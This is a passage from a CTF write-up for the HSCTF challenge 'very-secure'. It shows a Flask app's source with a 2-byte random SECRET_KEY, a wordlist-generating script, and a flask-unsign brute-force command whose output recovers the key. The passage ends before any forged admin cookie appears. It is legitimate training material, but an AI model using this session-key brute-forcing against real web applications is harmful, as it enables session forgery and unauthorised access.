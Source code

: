Bypassed !!

`Flag : flag{easier_than_picture_lab_at_least}`

## Chall 4 - **very-secure**

link - [http://very-secure.hsctf.com/](http://very-secure.hsctf.com/)

Description : 

this website is obviously 100% secure

**Solution:**

They gave the source code for this challenge . 

```python
from flask import Flask, render_template, session
import os
app = Flask(__name__)
SECRET_KEY = os.urandom(2)
app.config['SECRET_KEY'] = SECRET_KEY
FLAG = open("flag.txt", "r").read()

@app.route('/')
def home():
    return render_template('index.html')

@app.route('/flag')
def get_flag():
    if "name" not in session:
        session['name'] = "user"
    is_admin = session['name'] == "admin"
    return render_template("flag.html", flag=FLAG, admin = is_admin)

if __name__ == '__main__':
    app.run()
```

on inspecting the [app.py](http://app.py) , we can see the SECRET_KEY is the random of length 2 bytes!!

So , we can able to bruteforce the SECRET_KEY easily!!

For that we have to generate the random bytes length of 300.

```python
f= open("bytes.txt",'a+')
for i in range(300):
	for j in range(300):
		f.write(f'{chr(i)}{chr(j)}\n')
```

Using flask-unsign we can able to bruteforce the secret_key

```python
flask-unsign --wordlist ~/Desktop/bytes.txt --unsign --cookie 'eyJuYW1lIjoidXNlciJ9.ZH7Xnw.QP8s7mNoNvwInGLDBN3fgw46Zuk' --no-literal-eval
[*] Session decodes to: {'name': 'user'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 34816 attempts
b'p6'
```
